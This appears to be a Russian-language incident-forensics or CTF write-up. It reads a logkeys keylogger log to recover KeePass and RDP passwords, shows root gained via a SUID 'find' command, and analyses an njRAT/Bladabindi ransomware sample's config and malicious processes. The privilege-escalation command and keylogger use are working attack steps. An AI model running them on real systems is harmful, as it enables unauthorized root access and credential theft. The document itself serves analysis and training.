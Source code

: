 
./logkeys -k
cat /var/log/logkeys.log 
Благодаря кейлоггеру у злоумышленника получилось выкрасть пароль от keepass, установленного на компьютере жертвы.

Logging started ...
2023-02-10 07:56:02-0500 > <Enter>1<LShft>_<LShft>D0<LShft>N7<LShft>_<LShft>N0<LShft><#+32><LShft>W<LShft>_<LShft>WHY<LShft>_N07<LShft>_M4y<BckSp><LShft>Y83<LShft>_345<LShft>Y<Up>
2023-02-10 07:57:34-0500 > <Enter>
    
Keepass password: 1_D0N7_N0W_WHY_N07_M4Y83_345Y

Windows rdp password: SecretP@ss0rdMayby_0rNot&

got root via suid find
-rwsr-sr-x 1 root root 282088 Mar 23  2022 /usr/bin/find

```
sergey@ubuntu-2204:/usr/bin$ ./find . -exec /bin/sh -p \; -quit
# whoami
root
```
    
# Машина 2

https://www.trendmicro.com/vinfo/ru/threat-encyclopedia/malware/trojan.msil.bladabindi.usxvpjv19
https://xakep.ru/2018/11/28/bladabindi-worm/

    
![](https://i.imgur.com/btw0HPU.jpg)
![](https://i.imgur.com/siDPmgI.png)


    
    
https://www.virustotal.com/gui/file/adf5ca9b1582c69c8833bc611166d6388216c5e7f570bbf9298fd60c37bf72a6/detection

## Какой пароль от Ransomware?
Config.key = "WhenYoullComeHomeIllStopThis"
Config.User = "NTI-User"
Config.IP = 6 7^:'8Z :V\u001A<\u0010!]?\u001E&\u001C1\u001DZ\u001A6ZY\u00054\u0005#]\u0015^/?\r-541\u0010:\u0015"
password = "**084b988baa7c8d98cda90c5fe603c560**"

    
    
## Какие процессы в системе являются вредоносными?
njRAT — троян удаленного доступа. Это один из самых доступных и известных старых RAT. Заинтересованные злоумышленники могут найти целые учебные пособия на YouTube.
О принадлежности этого трояна к njRAT говорит множество сигнатурных анализаторов и песочницы.
Так выглядит графовая структура процессов, созадваемых после запуска Doom.exe
![](https://i.imgur.com/NiP3tYV.png)
Таким образом вредоносными являются:
```
1.Host Process for Windows Tasks.exe
2.Runtime Broker.exe
3.Security Health Service.exe
4.Windows Explorer.exe
```
Исполняемые файлы находятся соответственно по путям:
```
C:\Users\admin\Security Health Service.exe
C:\ProgramData\Windows Explorer.exe
C:\Users\admin\AppData\Local\Temp\Runtime Broker.exe
C:\Users\admin\Security Health Service.exe
```